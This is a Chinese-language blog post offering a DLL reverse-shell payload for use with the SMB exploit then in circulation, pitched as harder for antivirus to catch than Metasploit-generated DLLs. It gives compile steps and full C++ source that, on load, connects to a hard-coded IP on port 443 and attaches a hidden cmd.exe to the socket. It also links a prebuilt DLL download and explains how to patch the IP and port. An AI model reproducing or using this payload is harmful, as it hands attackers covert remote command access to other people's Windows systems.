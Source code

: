 ```yaml
---
title: dll nc 反弹代码
date: 2017-4-18 19:13
tags:
---
```

最近方程式smb 溢出很火 很多同学喜欢用**metasploit** 生成**dll**反弹很容易被杀
根据[反弹代码](https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/23083.zip)改写了一个 dll反弹版
无编译环境的可以二进制修改**ip**和端口字符串。

**gcc编译：**
![2019-07-20-17-21-21](https://wolvez.oss-cn-hangzhou.aliyuncs.com/27a6ce97f333342ffdb47badb4b20030.png)

**运行效果：**
![2019-07-19-03-11-05](https://wolvez.oss-cn-hangzhou.aliyuncs.com/a11debfd95e864fef458e253dc7f54e6.png)


使用**Visual Studio 2013** 编译注意事项：

1. 设置不使用预编译头或在代码中引入 **stdafx.h**
2. **win2003**及**win2008** 请使用在静态库中使用MFC方式
3. 64位系统使用请编译为64位版本

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "stdafx.h"
#include <winsock2.h>  
#include <stdlib.h>

#pragma comment(lib,"ws2_32")
void reverse_shell();
WSADATA wsaData;
SOCKET Winsock;
SOCKET Sock;
struct sockaddr_in hax;
STARTUPINFO ini_processo;
PROCESS_INFORMATION processo_info;
BOOL WINAPI DllMain(HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{


        switch (dwReason)
        {
        case DLL_PROCESS_ATTACH:
                reverse_shell();
                break;

        case DLL_PROCESS_DETACH:

                break;

        case DLL_THREAD_ATTACH:

                break;

        case DLL_THREAD_DETACH:

                break;
        }
        return TRUE;
}



void reverse_shell()
{
        LPCSTR szMyUniqueNamedEvent = "sysnullevt";
        HANDLE m_hEvent = CreateEventA(NULL, TRUE, FALSE, szMyUniqueNamedEvent);

        switch (GetLastError())
        {
                // app is already running
        case ERROR_ALREADY_EXISTS:
        {
         CloseHandle(m_hEvent);
         break;
        }

            case ERROR_SUCCESS:
            {

            break;
            }
        }


        WSAStartup(MAKEWORD(2, 2), &wsaData);
        Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

        hax.sin_family = AF_INET;
        hax.sin_port = htons(atoi("443"));

        hax.sin_addr.s_addr = inet_addr("172.31.139.141");
        WSAConnect(Winsock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

        memset(&ini_processo, 0, sizeof(ini_processo));
        ini_processo.cb = sizeof(ini_processo);
        ini_processo.dwFlags = STARTF_USESTDHANDLES;
        ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

        CreateProcessA(NULL, "cmd.exe", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, (LPSTARTUPINFOA)&ini_processo, &processo_info);

}
```
[dll下载](https://wolvez.oss-cn-hangzhou.aliyuncs.com/files/hehe.zip)
